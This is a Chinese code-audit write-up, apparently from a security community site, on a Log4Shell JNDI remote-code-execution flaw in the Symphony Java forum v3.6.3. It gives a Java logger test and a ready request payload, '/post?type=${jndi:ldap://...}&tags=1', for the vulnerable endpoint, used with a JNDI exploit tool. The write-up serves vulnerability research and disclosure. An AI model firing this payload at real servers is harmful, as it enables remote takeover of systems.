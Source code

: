 

# Symphony 代码审计-JAVA - 先知社区

Symphony 代码审计-JAVA

- - -

### 0x00 前言

**产品说明：**  
Symphony 一款用 Java 实现的现代化社区（论坛/BBS/社交网络/博客）平台，实现了面向内容讨论的论坛、面向知识问答的社区、包含了面向用户分享、交友、游戏的社交网络，100% 开源。

**审计源码下载地址：**  
[https://github.com/88250/symphony/archive/refs/tags/v3.6.3.zip](https://github.com/88250/symphony/archive/refs/tags/v3.6.3.zip)

**环境说明：**  
IntelliJ IDEA 2021.1.3  
JDK1.8.0\_181  
Mysql5.7.26  
SendCloud Mail

### 0x01 环境准备

0.参考官方安装指南 [https://ld246.com/article/1486188905847](https://ld246.com/article/1486188905847)

1.手动新建数据库 b3log\_symphony，按需修改 src/main/resources/local.properties 中的数据库口令配置。  
[![](assets/1708529650-64d95515d13049fcce161200ca5aba62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221101659-4b10a822-d05f-1.png)

2.用户注册需要验证邮箱，所以必须先配置好邮件，按需修改 src/main/resources/symphony.properties 中的邮件配置。我使用 SendCloud，apiUser 和 apiKey 可以去 [https://www.sendcloud.net/](https://www.sendcloud.net/) 注册一个账号获取。  
[![](assets/1708529650-2bee40850766027f261d9d08587e83b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221085421-bfe81ff6-d053-1.png)

3.运行 src/main/java/org/b3log/symphony/Server.java#main() 即可启动项目。

### 0x02 开始审计

#### log4j-core:2.13.2

Log4j2 版本 < 2.15.0-rc2 可以通过 JNDI 协议加载远程代码 RCE。Log4j2 日志级别（调用）大于等于系统设置的 intLevel 的时候，log4j2 才会启用日志打印。在配置文件 src/main/resources/log4j2.xml 中 intLevel 被设置为 Info，通过 <root level="Info"> 设置。</root>

[![](assets/1708529650-3df4632e4ded6b4292532a4673ed3a94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092136-8e841236-d057-1.png)

那么在寻找漏洞利用点时，可以搜索下述 8 种参数可控的 logger。

```bash
package org.b3log.symphony;

import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class test {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(test.class);
        logger.fatal("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.error("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.warn("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.info("${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        //或
        logger.log(Level.FATAL, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.ERROR, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.WARN, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
        logger.log(Level.INFO, "${jndi:ldap://127.0.0.1:1389/e3ccbf}");
    }
}
```

在 src/main/java/org/b3log/symphony/processor/ArticleProcessor.java#showAddArticle() 方法里存在一处利用点，当 type 数据不为整型时触发 logger，其中的 type 数据可以通过请求中的 type 参数传入。

[![](assets/1708529650-ee542b96861373fbbac517df5e028bbc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221100344-71786dc6-d05d-1.png)

为了代码执行到漏洞点，在构造请求时需要给 tags 参数传入值。

[![](assets/1708529650-4c000d3938c5c3374e290b8fb4c5dfa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221101320-c89fb52c-d05e-1.png)

找到调用该方法的位置，可以看到通过 get 方式请求 /post 即可调用到 showAddArticle()。

[![](assets/1708529650-2a020299695995943176c918f45bbe75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221094421-bbc9713e-d05a-1.png)

在本地开启 JNDI 注入工具 JNDI-Injection-Exploit。

[![](assets/1708529650-c7e60a23fca852b978702d1d7fb66a39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221095625-6b5709d0-d05c-1.png)

注册一个用户并登录，然后测试触发 RCE。  
payload：`/post?type=${jndi:ldap://127.0.0.1:1389/e3ccbf}&tags=1`

[![](assets/1708529650-44c6b2449fa6ea1898711b7a6bcd73ae.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240221095935-dcb86948-d05c-1.gif)

### 参考

symphony 存在命令执行漏洞  
[https://www.cnvd.org.cn/flaw/show/CNVD-2024-07401](https://www.cnvd.org.cn/flaw/show/CNVD-2024-07401)  
从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228 漏洞  
[https://zhuanlan.zhihu.com/p/445834671](https://zhuanlan.zhihu.com/p/445834671)
